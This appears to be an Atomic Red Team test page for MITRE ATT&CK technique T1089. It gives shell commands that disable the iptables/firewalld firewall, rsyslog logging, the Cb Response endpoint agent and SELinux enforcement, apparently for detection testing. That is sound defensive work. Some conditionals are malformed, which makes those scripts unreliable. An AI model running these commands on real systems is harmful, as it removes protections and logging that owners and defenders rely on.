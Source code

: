 # T1089 - Disabling Security Tools
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1089)
<blockquote>Adversaries may disable security tools to avoid possible detection of their tools and activities. This can take the form of killing security software or event logging processes, deleting Registry keys so that tools do not start at run time, or other methods to interfere with security scanning or event reporting.

Detection: Monitor processes and command-line arguments to see if security tools are killed or stop running. Monitor Registry edits for modifications to services and startup programs that correspond to security tools. Lack of log or event file reporting may be suspicious.

Platforms: Linux, macOS, Windows

Data Sources: API monitoring, Anti-virus, File monitoring, Services, Windows Registry, Process command-line parameters

Defense Bypassed: Anti-virus, File monitoring, Host intrusion prevention systems, Signature-based detection, Log analysis</blockquote>

## Atomic Tests

- [Atomic Test #1 - Disable iptables firewall](#atomic-test-1---disable-iptables-firewall)

- [Atomic Test #2 - Disable syslog](#atomic-test-2---disable-syslog)

- [Atomic Test #3 - Disable Cb Response](#atomic-test-3---disable-cb-response)

- [Atomic Test #4 - Disable SELinux](#atomic-test-4---disable-selinux)


<br/>

## Atomic Test #1 - Disable iptables firewall
Disables the iptables firewall

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service iptables stop
  chkconfig off iptables
  service ip6tables stop
  chkconfig off ip6tables
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop firewalld
  systemctl disable firewalld
fi

```
<br/>
<br/>

## Atomic Test #2 - Disable syslog
Disables syslog collection

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service rsyslog stop
  chkconfig off rsyslog
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop rsyslog
  systemctl disable rsyslog
fi

```
<br/>
<br/>

## Atomic Test #3 - Disable Cb Response
Disable the Cb Response service

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service cbdaemon stop
  chkconfig off cbdaemon
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop cbdaemon
  systemctl disable cbdaemon
fi

```
<br/>
<br/>

## Atomic Test #4 - Disable SELinux
Disables SELinux enforcement

**Supported Platforms:** linux


#### Run it with `sh`!
```
setenforce 0

```
<br/>
